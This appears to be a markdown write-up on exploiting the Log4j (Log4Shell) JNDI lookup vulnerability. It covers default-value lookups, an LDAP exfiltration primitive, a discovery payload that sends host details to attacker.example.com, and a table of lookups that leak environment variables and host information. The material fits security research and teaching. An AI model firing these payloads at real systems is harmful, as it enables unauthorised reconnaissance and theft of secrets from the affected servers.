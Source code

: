     ```
1. Lookups can default if they encounter an error condition
    ```
    ${ctx:doesntExist:-hello}
    Logs: hello
    ${noSuchType:-world}
    Logs: world
    ```

# Vulnerabilities

## Preface: Exfiltration

We will rely on the `${jndi:ldap://...}` lookup as a primitive for exfiltration. We will leverage the ability
of lookups being concatenated in order to append victim information to a network call. This can either be done by appending
data to the url, or by utilizing it in a DNS lookup.

```
In URL: ${jndi:ldap://attacker.example.com:1389/${date:ddMMyyyy}}
In DNS: ${jndi:ldap://${date:ddMMyyyy}.example.com:1389/}
```

## Discovery

Vulnerable targets can be identified by sending a simple exfiltration payload (such as the date one above). If the payload
produces a hit on the attacker's server then there is likely a vulnerability. A simple initial exploration payload could look something like

```
${jndi:ldap://attacker.example.com:1389/victim/${date:ddMMyyyy}/${docker.containerName:-nodocker}/${kubernetes.accountName:-nok8}/${java:runtime}/${sys:user.name}/${main:0:-nocliargs}}
```

## Information Disclosure

Most substitutable values provide meaningful information about the host server. This includes data such as environmental variables, java configuration, and execution environment among others.
A List of substitutable values can be found in the [Lookups](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) and
[Property Substitution](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) docs.

Some interesting values are listed here.

| Payload                      | Description                        |
|------------------------------|------------------------------------|
| `${env:ENV_VAR}`             | Any environmental variable         |
| `${java:runtime}`            | The Java runtime version           |
| `${java:vm}`                 | The Java VM version                |
| `${java:os}`                 | The host OS version                |
| `${main:0}`, `${main:1}` ... | CLI Args passed to the application |
| `${hostName}`                | Hostname of the host               |
